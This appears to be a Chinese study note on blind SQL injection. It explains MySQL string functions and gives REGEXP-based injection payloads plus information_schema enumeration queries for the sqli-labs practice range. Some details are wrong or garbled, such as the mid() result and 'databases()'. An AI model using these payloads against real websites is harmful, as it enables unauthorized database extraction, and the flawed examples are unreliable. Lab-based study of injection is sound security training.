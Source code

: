 eg：str=123456，，，，mid(str,1,1) 结果为2

sql示例：

1.  mid(databases(),1,1)>'a'，查看数据库名第一位，mid(databases(),2,1)查看数据库名第二位，依次查看个位字符。
2.  MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>’a’此处column_name参数可以为sql语句，可自行构造sql语句进行注入。

### 2. substr()

​	substr()与substring()函数使用的功能是一样的。

​	substr(string,start,length) 

## 3. left()

left ( string, n )    string为要截取的字符串，n为长度。

### 4.ord()

返回第一个字符的ASCII码

## sql盲注之正则表达式

假设数据库名为bind_sql

1.  判断第一个表名的第一个字符是否是a-z中的字符

    >   ?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-z]' LIMIT 0,1)--+

2.  判断第一个表名的第一个字符是否是a-n中的字符

    >   ?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)--+

3.  确定该字符为n

    >   ?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^n' LIMIT 0,1) --+

4.  表达式更换如下：

    ^n[a-z] ---> '^ne[a-z]' -> '^new[a-z]' -> '^news[a-z]' -> FALSE

    这时确定了表名为news

------

# sqllab靶场

## Less1~Less4

```
猜数据库 
select schema_name from information_schema.schemata 
猜某库的数据表 
select table_name from information_schema.tables where table_schema=’xxxxx’ 
猜某表的所有列 
Select column_name from information_schema.columns where table_name=’xxxxx’
```
